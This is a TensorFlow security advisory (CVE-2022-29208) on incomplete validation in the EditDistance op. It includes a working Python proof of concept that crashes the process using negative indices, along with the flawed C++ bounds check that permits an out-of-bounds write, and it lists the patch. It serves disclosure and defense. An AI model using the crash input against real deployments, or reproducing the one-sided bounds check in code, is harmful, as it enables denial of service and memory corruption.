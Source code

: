URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-077.md
## TFSA-2022-077: Segfault and OOB write due to incomplete validation in `EditDistance`

### CVE Number
CVE-2022-29208

### Impact
The implementation of [`tf.raw_ops.EditDistance`]() has incomplete validation. Users can pass negative values to cause a segmentation fault based denial of service:

```python
import tensorflow as tf

hypothesis_indices = tf.constant(-1250999896764, shape=[3, 3], dtype=tf.int64)
hypothesis_values = tf.constant(0, shape=[3], dtype=tf.int64)
hypothesis_shape = tf.constant(0, shape=[3], dtype=tf.int64)

truth_indices = tf.constant(-1250999896764, shape=[3, 3], dtype=tf.int64)
truth_values = tf.constant(2, shape=[3], dtype=tf.int64)
truth_shape = tf.constant(2, shape=[3], dtype=tf.int64)

tf.raw_ops.EditDistance(
  hypothesis_indices=hypothesis_indices,
  hypothesis_values=hypothesis_values,
  hypothesis_shape=hypothesis_shape,
  truth_indices=truth_indices,
  truth_values=truth_values,
  truth_shape=truth_shape)
```

In multiple places throughout the code, we are computing an index for a write operation:

```cc
if (g_truth == g_hypothesis) {
  auto loc = std::inner_product(g_truth.begin(), g_truth.end(),
                                output_strides.begin(), int64_t{0});
  OP_REQUIRES(
      ctx, loc < output_elements,
      errors::Internal("Got an inner product ", loc,
                       " which would require in writing to outside of "
                       "the buffer for the output tensor (max elements ",
                       output_elements, ")"));
  output_t(loc) =
      gtl::LevenshteinDistance<T>(truth_seq, hypothesis_seq, cmp);
  // ...
}
```

However, the existing validation only checks against the upper bound of the array. Hence, it is possible to write before the array by massaging the input to generate negative values for `loc`.

### Patches
We have patched the issue in GitHub commit [30721cf564cb029d34535446d6a5a6357bebc8e7](https://github.com/tensorflow/tensorflow/commit/30721cf564cb029d34535446d6a5a6357bebc8e7).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
